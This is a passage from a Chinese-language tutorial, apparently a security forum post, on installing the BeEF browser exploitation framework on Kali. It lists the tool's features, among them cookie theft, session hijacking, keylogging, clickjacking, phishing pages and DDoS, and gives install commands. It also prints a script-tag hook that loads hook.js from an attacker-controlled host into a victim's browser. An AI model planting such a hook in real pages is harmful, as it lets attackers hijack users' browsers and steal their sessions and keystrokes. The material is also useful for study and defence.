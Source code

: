 ```html
信息收集:
1.网络发现
2.主机信息
3.Cookie获取
4.会话劫持
5.键盘记录
6.插件信息

持久化控制:
1.确认弹框
2.小窗口
3.中间人

社会工程:
1.点击劫持
2.弹窗告警
3.虚假页面
4.钓鱼页面

渗透攻击:
1.内网渗透
2.Metasploit
3.CSRF攻击
4.DDOS攻击
```

**BeEF的简单安装**

我这里用kali  
启动Apache服务：service apache2 start  
然后安装Beef工具  
我用脚本安装

```html
命令：
apt-get update
apt-get install beef-xss
apt-get install beef-xss
beef-xss
```

启动之后  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c0b56605876c76e71f7e717e9c1f5c41192dd97c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c0b56605876c76e71f7e717e9c1f5c41192dd97c.png)

```html
Hook: <script src="http://<IP>:3000/hook.js"></script>
```

会弹出来beef的登录窗口  
这边我们在看一下beef绑定的3000端口  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cf1a49963bb8e81e617bba26a3739f82ccc4e4a4.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cf1a49963bb8e81e617bba26a3739f82ccc4e4a4.png)  
发现绑定3000端口的IP是0.0.0.0  
发现是0.0.0.0 监听3000端口  
那么远程也是可以访问的
